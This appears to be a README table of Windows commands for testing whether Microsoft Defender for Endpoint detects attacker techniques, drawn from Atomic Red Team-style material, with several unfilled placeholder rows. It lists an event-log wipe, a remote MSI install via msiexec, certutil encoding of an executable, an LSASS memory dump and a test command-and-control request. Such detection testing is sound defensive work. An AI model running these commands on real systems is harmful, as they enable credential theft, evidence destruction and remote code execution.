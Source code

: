# Command lines for MDE

Below are some of the command lines that can be used to evaluate MDE (Microsoft defender for Endpoint).

| Name  | Command               |
|----------|---------------------------|
| Clean Windows Event logs | wevtutil cl system , wevtutil cl application, wevtutil cl security   |
| create a scheduled task | schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR "cmd /c date /T > C:\Windows\Temp\current_date.txt"   |
| use of living off the land binary to run malicious code | msiexec /q /i https://github.com/op7ic/EDR-Testing-Script/blob/master/Payloads/notepad.msi?raw=true   |
| Encode Certutil and decode | copy %windir%\system32\certutil.exe %temp%\tcm.tmp , %temp%\tcm.tmp -encode C:\Windows\System32\calc.exe %temp%\T1140_calc2.txt, %temp%\tcm.tmp -decode %temp%\T1140_calc2.txt %temp%\T1140_calc2_decoded.exe   |
| Dump LSASS.exe memory using comsvcs.dll | C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full   |
| Network Protection Command and Control | Invoke-WebRequest -URI https://commandcontrol.smartscreentestratings.com   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |
| command3 | Description of command3   |






## References

1. [RedCanary](https://github.com/redcanaryco/invoke-atomicredteam/wiki/Installing-Invoke-AtomicRedTeam)
   
3. [jeffreyappel Blog](https://jeffreyappel.nl/microsoft-defender-for-endpoint-series-validate-defender-protection-and-additional-troubleshooting-part6/)
